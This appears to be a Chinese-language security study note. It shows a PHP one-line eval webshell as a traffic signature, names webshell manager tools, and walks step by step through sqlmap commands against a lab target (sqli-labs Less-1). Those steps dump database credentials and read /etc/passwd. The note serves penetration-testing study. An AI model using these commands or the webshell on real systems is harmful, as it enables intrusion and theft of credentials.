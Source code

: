 #### 木马流量敏感关键字

```
<?php @eval($_POST["xxx"]); ?>
```

#### 相应 webshell 管理工具流量

比如菜刀流量、冰歇流量、蚁剑流量、哥斯拉的流量

## **利用 sqlmap 探测 get 类型注入**

### **1、探测数据库名**

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --dbs 
```

![image-20240801170629854](../../../../repo/assets/19.SQL注入/image-20240801170629854.png)

### **2、探测表名**

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch -D security --tables 
```

![image-20240801170702240](../../../../repo/assets/19.SQL注入/image-20240801170702240.png)

### **3、探测字段名**

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch -D security -T users --columns 
```

![image-20240803112700602](../../../../repo/assets/19.SQL注入/image-20240803112700602.png)

### **4、探测 字段值**

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch -D security -T users -C id,username,password --dump 
```

![image-20240803112758011](../../../../repo/assets/19.SQL注入/image-20240803112758011.png)

### **5、读取敏感文件**

> --file-read

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --file-read '/etc/passwd' 
cat /root/.local/share/sqlmap/output/192.168.70.14/files/_etc_passwd
```

![image-20240803113005155](../../../../repo/assets/19.SQL注入/image-20240803113005155.png)
